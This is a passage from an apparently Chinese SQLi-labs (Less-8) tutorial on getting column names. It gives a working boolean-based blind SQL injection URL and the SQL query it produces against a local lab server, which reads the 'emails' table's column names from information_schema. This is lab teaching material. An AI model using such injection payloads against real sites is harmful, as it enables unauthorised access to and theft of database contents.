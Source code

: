 ![](image/20.jpg)

#### 获取列名

同获取数据库中表名方法一样，此处便不再赘述，直接给出例子：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20ascii(substr((select%20column_name%20from%20Information_schema.columns%20where%20table_name%20=%20%27emails%27%20and%20table_schema=database()%20limit%200,1),1,1))=105%23
SQL:
SELECT * FROM users WHERE id='1' and ascii(substr((select column_name from Information_schema.columns where table_name = 'emails' and table_schema=database() limit 0,1),1,1))=105#' LIMIT 0,1
;
```

第一个列名为：`id`
